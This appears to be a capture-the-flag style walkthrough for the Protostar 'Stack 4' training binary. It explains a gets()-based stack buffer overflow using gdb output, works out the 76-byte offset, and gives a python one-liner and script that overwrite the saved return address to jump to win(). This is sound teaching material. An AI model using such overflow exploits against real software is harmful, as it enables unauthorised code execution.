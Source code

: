 ```yaml
---
title: Stack 4
sidebar_position: 5
custom_edit_url: null
---
```


> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
> This level is at /opt/protostar/bin/stack4
> 
> **Hints**
> - A variety of introductory papers into buffer overflows may help
> - gdb lets you do “run < input
> - EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this program, we have the `win` function. 
There is no initialized function pointer in the `main` function. There fore we will have to overwrite the saved `eip`, also known as the the saved return address.

The saved return address is located before the buffer.
```
		    |-------------------------|                                                       
entry esp --------> |     saved eip           |
		    |     (return address)    |
                    |-------------------------|                                                           
new ebp ----------> |     saved ebp           |
		    |-------------------------|
	 	    |     buff [63]           |
		    |          .              |
		    |          .              |
		    |          .              |
		    |     buff [0]            |
		    |-------------------------|
new esp ----------> |     i                   |
		    |-------------------------|
	            |                         |
```
That was a generalized representation.

We need the exact layout of the stack in order to craft our payload. 
```
(gdb) disass main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
Set a breakpoint at `main+21` and pass in the following input:
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```
This will lead to segmentation fault.
```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```
The error message tells us that the value of  stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

Let's try to get a clearer picture.
```
(gdb) info registers
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x73737373       0x73737373
esi            0x0      0
edi            0x0      0
eip            0x74747474       0x74747474
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
The 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`, and the four bytes before those which were `ssss` overwrote the saved `ebp`.
This means we need 80 bytes in total. 64 bytes to fill the `buffer`, 8 bytes of padding, 4 bytes to overwrite the `saved ebp` and 4 for overwriting the `saved eip`.

In order to alter control flow to the `win` function, we first need to know its address.
```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```
These four bytes need to be the `0x080483f4` address in little-endian format.

## Exploit
```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
```


```python
import struct

padding = "A"*76
eip = struct.pack("I", 0x080483f4)
payload = padding+eip
print (payload)
```
